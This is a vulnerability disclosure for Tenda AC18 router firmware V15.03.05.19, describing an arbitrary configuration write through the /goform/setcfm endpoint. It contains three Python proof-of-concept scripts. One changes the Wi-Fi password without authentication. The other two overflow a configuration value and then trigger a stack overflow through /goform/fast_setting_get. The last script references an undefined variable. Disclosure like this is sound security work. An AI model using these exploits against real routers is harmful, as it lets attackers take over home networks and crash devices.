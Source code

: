 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

The Tenda AC18 firmware has an arbitrary write vulnerability in configuration items in the `/goform/setcfm` url. The `v16` variable receives the `name%d` parameter from a POST request and the `v17` variable receives the `value%d` parameter from a POST request.``SetValue(v16,v17)`will store v16 as the name of the configuration item and v17 as the value of the configuration item.So This code allows you to manipulate the values of `any` configuration items.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926144057813.png)

We can do many things through this vulnerability, such as changing the ``Wi-Fi password`, performing ` stack-overflow`attacks, and so on.

## PoC

### Chang the Wi-Fi password

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_153918.png)

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setcfm"
payload = "newPassword"

data = {"save": 1,"name0": "wl2g.ssid0.wpapsk_psk","value0":payload}
response = requests.post(url, data=data)
print(response.text)
```

### Stack-overflow attacks

SetValue

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_154048.png)

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setcfm"
payload = "a"*1000

data = {"save": 1,"name0": "wl2g.public.country","value0":payload}
response = requests.post(url, data=data)
print(response.text)
```

Trigger attack

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_154308.png)

```py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_get"

response = requests.post(url, data=data)
print(response.text)
```

The `s1` variable copies the value of the configuration item `wl2g.public.country` onto the stack, which can cause a stack overflow.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_150537.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)
